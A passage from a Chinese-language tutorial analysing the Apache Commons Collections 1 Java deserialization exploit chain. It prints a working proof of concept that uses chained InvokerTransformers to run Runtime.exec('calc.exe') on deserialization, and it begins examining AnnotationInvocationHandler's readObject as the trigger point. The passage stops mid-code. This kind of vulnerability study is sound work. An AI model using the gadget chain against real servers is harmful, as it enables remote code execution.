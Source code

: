 ```java
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        //创建Map并绑定transformerChina
        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        //给予map数据转化链
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //payload序列化写入文件，模拟网络传输
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(outerMap);

        // 服务端反序列化客户端代码，触发漏洞
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        //服务端反序列化成Map格式，再调用transform函数
        Map outerMap_now = (Map) objectInputStream.readObject();
        //2.1可以直接map添加新值，触发漏洞
        outerMap_now.put("123", "123");
        //2.2也可以获取map键值对，修改value，value为value，foobar,触发漏洞
//        Map.Entry onlyElement = (Map.Entry) outerMap.entrySet().iterator().next();
//        onlyElement.setValue("foobar");
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_46_9urLtUhN.png)

### jdk1.7 AnnotationInvocationHandler的readObject复写点
上面的漏洞触发条件仍然不够完美，需要服务端把我们传入的序列化内容反序列化为map，并对值进行修改。
之前也说过完美的反序列化漏洞还需要一个readobject复写点，只要服务端执行了readObject函数就等于命令执行。
在jdk1.7中就存在一个完美的readobject复写点的类`sun.reflect.annotation.AnnotationInvocationHandler`。
先看对应的构造函数
```java
AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
    Class[] var3 = var1.getInterfaces();
    if (var1.isAnnotation() && var3.length == 1 && var3[0] == Annotation.class) {//var1满足这个if条件时
        this.type = var1;//传入的var1到this.type
        this.memberValues = var2;//我们的map传入this.memberValues
    } else {
        throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
    }
}
```
readobject复写函数
```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        //默认反序列化
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
```